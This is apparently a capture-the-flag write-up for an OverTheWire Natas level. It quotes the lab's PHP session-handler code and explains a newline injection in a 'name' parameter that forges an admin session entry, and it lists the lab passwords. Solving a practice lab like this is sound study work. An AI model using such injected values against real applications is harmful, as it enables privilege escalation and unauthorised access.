 ```yaml
---
title: Wargames - Natas 21
published: false 
tags: game natas
---
```


## [Level 21](https://overthewire.org/wargames/natas/natas21.html)

Username: natas20
Password: eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF
Lab URL: http://natas20.natas.labs.overthewire.org/

Firstly we should be most interested in source code, lets get closer look. 

This part sets handers to manage session:
```
session_set_save_handler(
    "myopen", // not interesting
    "myclose", // not interesting
    "myread", // interesing
    "mywrite", // interesing
    "mydestroy", // not interesting
    "mygarbage" // not interesting
    );
```

This function set custom handers to process session data. More about it is ![here](https://www.php.net/manual/en/function.session-set-save-handler.php).

I remove all not interesting code from php code:
```
<?
function myread($sid) { 
    debug("MYREAD $sid"); 
    if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {
    debug("Invalid SID"); 
        return "";
    }
    $filename = session_save_path() . "/" . "mysess_" . $sid;
    if(!file_exists($filename)) {
        debug("Session file doesn't exist");
        return "";
    }
    debug("Reading from ". $filename);
    $data = file_get_contents($filename);
    $_SESSION = array();
    foreach(explode("\n", $data) as $line) {
        debug("Read [$line]");
    $parts = explode(" ", $line, 2);
    if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1];
    }
    return session_encode();
}

function mywrite($sid, $data) { 
    // $data contains the serialized version of $_SESSION
    // but our encoding is better
    debug("MYWRITE $sid $data"); 
    // make sure the sid is alnum only!!
    if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {
    debug("Invalid SID"); 
        return;
    }
    $filename = session_save_path() . "/" . "mysess_" . $sid;
    $data = "";
    debug("Saving in ". $filename);
    ksort($_SESSION);
    foreach($_SESSION as $key => $value) {
        debug("$key => $value");
        $data .= "$key $value\n"; // This line is very interesting 
    }
    file_put_contents($filename, $data);
    chmod($filename, 0600);
}

session_set_save_handler(
    "myread", 
    "mywrite", 
);
?> 
```

Ther is possibility to incject own code, by submitting:
```
http://natas20.natas.labs.overthewire.org/index.php?name=admin%0Aadmin%201
```

we receive password.

password: IFekPyrQXftziDEsUr3x21sYuahypdgJ